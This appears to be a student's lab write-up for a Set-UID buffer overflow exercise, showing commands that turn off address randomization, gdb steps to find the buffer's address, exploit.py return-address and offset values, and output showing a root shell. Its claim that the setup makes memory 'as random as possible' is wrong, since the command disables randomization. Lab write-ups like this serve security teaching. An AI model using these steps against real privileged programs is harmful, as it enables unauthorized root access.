 # Buffer Overflow Attack Lab (Set-UID)

## -> Environment Setup
These command lines prepare the environment and make it as random as possible so to make it difficult to guess the address. 

    sudo sysctl -w kernel.randomize_va_space=0

    sudo ln -sf /bin/zsh /bin/sh   

## -> Task 3: Notes

In my shell, I coded the following information:

I created an empty badfile

    touch badfile

Then, I set a break point at function bof() and then executed the program

    b bof
    run
    next

Then, I took the ebp value, followed by getting the buffer's address and exiting by typing "quit".

    p $ebp
    p &buffer
    quit

Image of terminal provided:
![view_of_the_vm.PNG](https://raw.githubusercontent.com/s-wayd/s-wayd.github.io/main/1st%20screenshot.png)

## -> Opening Nano exploit.py

After having exited, I entered the nano exploit.py by typing just that:

    nano exploit.py

The commands above entered me into an editing program where I made the following edits:

    start = 420
    ret = 0xffffce2c + start
    offset = 108 + 4

Image example provided:
![view_of_the_vm.PNG](https://raw.githubusercontent.com/s-wayd/s-wayd.github.io/main/2nd%20Screenshot.png)

After exiting the editing program, I coded the following commands: 

    ./exploit.py
    ./stack-L1

The above exploit command created the badfile and the stack command launches the attack by running the vulnerable program.
By doing the above commands, I got a root shell!

...and the follwing output appears:

    Input size: 517
    #
    #whoami
    root

Image of output provided:
![view_of_the_vm.PNG](https://raw.githubusercontent.com/s-wayd/s-wayd.github.io/main/3rd%20Screenshot.png)

![view_of_the_vm.PNG](https://raw.githubusercontent.com/s-wayd/s-wayd.github.io/main/4th%20Screenshot.png)

# Bonus:
## -> Task 4

I went back into the nano exploit file and created a new file called:

    nano ./exploit-2.py

Then I made changes in the nano exploit-2 file as demonstrated in the image below: (changing the "+ L" to "+ 100" and adding a "*25" at the end of that same line)

![view_of_the_vm.PNG](https://raw.githubusercontent.com/s-wayd/s-wayd.github.io/main/6th%20Screenshot.png)

After exiting the nano, I typed the following commands:

    ./exploit-2.py
    ./stack-L2

The resulting output was:

    Input size: 517
    #

Which means that it was a successful completion!

![view_of_the_vm.PNG](https://raw.githubusercontent.com/s-wayd/s-wayd.github.io/main/7th%20Screenshot.png)
